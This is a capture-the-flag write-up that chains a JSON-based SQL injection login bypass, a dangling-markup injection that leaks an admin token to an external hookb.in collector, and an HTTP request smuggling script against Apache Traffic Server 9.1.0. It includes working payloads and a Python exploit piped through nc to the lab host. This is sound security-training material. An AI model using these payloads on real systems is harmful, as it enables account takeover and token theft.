 ## PALINDROME's Secret

We are given a website and its source code.

This web application requires 3 exploits to be able to retrieve the flag. 
1. SQL injection (not your normal SQL payload) to *log in*
1. HTTP Request Smuggling (damn cool, never learnt before) to make a request to a protected URL.
1. Cross-Site Scripting (sort of, but it is HTML Injection) to steal the administrator token.

![Login Page](./Images/Challenge5_1.png)

```js
const postLoginHandler = async (req, res) => {
    const { email, password } = req.body
    if (!email || !password)
        return res.status(400).send({ message: 'Missing email or password' })

    const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
    if (rows.length === 0)
        return res.status(401).send({ message: 'Invalid email or password' })

    req.session.userId = rows[0].id
    return res.status(200).send({ message: "Success" })
}
```

This is the login handler. We can use the exploit [here](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) to perform sql injection and obtain a login token.

```json
{
    "email":{
        "email": 1
    },
    "password":{
        "password": 1
    }
}
```
![Login Success](./Images/Challenge5_2.png)

We use burpsuite to intercept the request, change the json object that is POST-ed and then we can login into the portal! Later on, I needed to keep creating new sessions as I was trying to craft the payload. A faster way to *log in* will be to send a POST request in repeater, without the cookie, when the web server replies with the success message, copy out the generate session token and edit the cookie in firefox to have a fresh session.

![Login Success GUI](./Images/Challenge5_3.png)

The only place the admin token is present is in the middleware. It seems like we need the connection to originate from localhost. Probably means we need to find some place to conduct an SSRF attack.

```js
const authenticationMiddleware = async (req, res, next) => {
    if (req.session.userId) {
        if (req.ip === '127.0.0.1')
            req.session.token = process.env.ADMIN_TOKEN 

        next()
    }
    else 
        return res.redirect('/login')
}
```

The place with the highest chance of SSRF looks like the `report-issue` feature, where we can input an URL to the server to scan (the server will use puppeteer to visit the URL). However the `do-report` feature is blocked by the proxy. The `do-report` path is mapped to `forbidden`, instead of `do-report`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

It seems like the proxy used is `Trafficserver 9.1.0`. This seems to be an old version of Apache Traffic Server.

```
RUN curl -L https://archive.apache.org/dist/trafficserver/trafficserver-9.1.0.tar.bz2 > ats.tar.bz2 && \
    tar xf ats.tar.bz2 && \
    cd trafficserver-9.1.0 && \
    ./configure --prefix=/opt/ts && \
    make && \
    make install
```

I was quite sure that it was HTTP request smuggling since the `remap.config` looks properly configured and the only other way to `/do-report` is through smuggling. I made a detour to think about the final step first. 

Even if we can make a request to `/do-report`, what URL should we provide it? My first idea was naive. I tried to host a web server which returns javascript to make puppeteer visit `https://localhost:8000/token` and then return the html response. Well it failed, because of CORS. A browser doesn't let you make requests to servers that don't allow CORS.

Inside `main.js` we can see this:
```js
res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
```

This is the example payload in the URL.
```html
<script>
  let req = new XMLHttpRequest();
  req.open("GET", "http://localost:8000/index");
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      const req2 = new XMLHttpRequest();
      req2.open("POST", "https://hookb.in/8PVJYNKQqEUpVYopj8VX", true);
      req2.setRequestHeader("Content-Type", "application/json");
      req2.send(JSON.stringify({"response": req.status }));
    }
  };
  req.setRequestHeader("Content-Type", "application/json");
  req.responseType = "json";
  req.send(JSON.stringify({ "username" : "yolo" }));
  req.send();
</script>
```

Well then the only other way is to really make puppeteer, retrieve the token from somewhere inside `localhost:8000` and then return us the token. My first thought was something like reflected XSS, but there are no fields that allow us to do so. Persistent XSS was possible though. Inside `/token`, you can input **any** username you want, and then the token generated can be used as XSS inside `/verify?token=...`. It is now clear where to steal the admin token, the admin token will be revealed inside `http://localhost:8000/verify?token=...` right behind the `!{username}` tags.

```pug
            | This token belongs to !{username}.
            | If !{username} asks for your token, you can give them this token: #{token}.
```

My first idea was to insert `<script>` tags.

![XSS](./Images/Challenge5_4.png)

Well, nothing worked. Let's check the `Content-Security-Policy`. Inside `main.js`:

```js
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
```

It seems like we won't be able to load scripts that are not from the server itself. The only thing we are able to inject will be `img src` tags. Let's try to craft a `img` tag payload. The only one that was able to succeed was `<img src="c2server/c2url?a=` As the unclosed `"` and `>` will mean that we can steal some text from behind where `username` was rendered. 

![Img tag](./Images/Challenge5_5.png)

Using `<img src="...` as payload. We can see that the second `img src` gets broken off.

![img src](./Images/Challenge5_6.png)

Our *pathetic* loot from the server:

![returned payload](./Images/Challenge5_6_1.png)

After experimenting many more payloads, the final payload looks like this. It looks like the HTML injection worked and we can steal the user's token. Now we just need to smuggle the request to this page to the backend server.

`"><img src="https://hookb.in/6J1enM3l90ToO0ro3Px9?steal=`
![img src success](./Images/Challenge5_7.png)

We got our own token back, this means that if the administrator visits this page, we will get the administrator token.

![returned payload success](./Images/Challenge5_7_1.png)

Now back to the HTTP request smuggling. After some extensive googling, an [HTTP request smuggling exploit](https://hackerone.com/reports/1238099) for ATS 9.0.0 looks promising. I downloaded the `poc.zip` and then used `payload2.py` to craft my payload. I first used hookbin as the URL so that I can check if the HTTP request smuggling succeeded, this particular python payload was able to return a request to my hookbin endpoint.

```python
import sys

def h(n):
    return hex(n)[2:].encode()

payload = b"{\"url\": \"https://hookb.in/Lg3WWl6pPMi1lrp1aGn1\"}"
cookie = b"Cookie: connect.sid=s%3AU9-fwBPGCKnA9HEFOKwZnRwDoaMu9pzq.zDzhgdHfIrIYYtibgwtTPLAymXU9niSE0BvhDgpl6Yw"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json" + b"\r\n" +
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    payload + b"\r\n" +
    b"0\r\n\r\n"
)

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

`python payload2.py | nc 128.199.237.165 23627`

Now, all that is left is to put in the "XSS" payload into a token and then make puppeteer visit the URL. I replaced the URL in the `payload2.py` to `payload = b"{\"url\": \"http://localhost:8000/verify?token=TISC%7B2%3A2%3A3%3A9%3A7%3Ax%3An%3Ar%3A4%3Au%7D\"}"`. And we get the flag!

![Flag](./Images/Challenge5_8.png)

So let's run through the steps again.
1. First I used SQLi using json payloads to login into the console. 
1. Then I crafted a [HTTP Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) payload which allows us to steal the html text. The username is entered as the payload and the resulting token produced will be the URL that we want puppeteer to visit. 
1. Then I used HTTP request smuggling to make a request to `/do-report` so that it will visit the verify token page. Once puppeteer visits the URL, the dangling markup will be able to capture the token and return it to us.

